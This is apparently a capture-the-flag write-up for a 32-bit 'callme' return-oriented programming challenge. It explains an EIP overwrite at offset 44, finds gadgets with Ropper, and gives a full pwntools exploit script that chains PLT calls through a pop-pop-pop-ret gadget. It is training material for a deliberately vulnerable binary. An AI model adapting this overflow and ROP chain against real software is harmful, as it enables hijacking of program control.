 In this challenge, we need to change the flow of the program so it will call the following functions in the right order:

```
callme_one(1,2,3)
callme_two(1,2,3)
callme_three(1,2,3)
```

Just as with the previous two challenges, EIP is overridden statring with byte 44 of our input.

First, let's find the relevant functions in the PLT:
```python
from pwn import *

e = ELF('./callme32')
callme_one_addr = e.plt['callme_one']
callme_two_addr = e.plt['callme_two']
callme_three_addr = e.plt['callme_three']
exit_addr = e.plt['exit']
```

Next, since the functions receive parameters, we need to find a pop pop pop ret gadget so we'll be able to chain them. We'll use Ropper for that:

```
# ropper -a x86 -f ./callme32 --search "pop % pop % pop % ret;"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop % pop % pop % ret;

[INFO] File: ./callme32
0x080488a8: pop ebx; pop esi; pop edi; pop ebp; ret; 
0x080488a9: pop esi; pop edi; pop ebp; ret; 
```

The final exploit script:
```python
from pwn import *

e = ELF('./callme32')
callme_one_addr = e.plt['callme_one']
callme_two_addr = e.plt['callme_two']
callme_three_addr = e.plt['callme_three']
exit_addr = e.plt['exit']
ppr_gadget = 0x080488a9

p = process('./callme32')
p.recvuntil('>')

payload = 'A'*44
payload += p32(callme_one_addr)
payload += p32(ppr_gadget)
payload += p32(1)
payload += p32(2)
payload += p32(3)
payload += p32(callme_two_addr)
payload += p32(ppr_gadget)
payload += p32(1)
payload += p32(2)
payload += p32(3)
payload += p32(callme_three_addr)
payload += p32(exit_addr)
payload += p32(1)
payload += p32(2)
payload += p32(3)

p.sendline(payload)
p.interactive()
```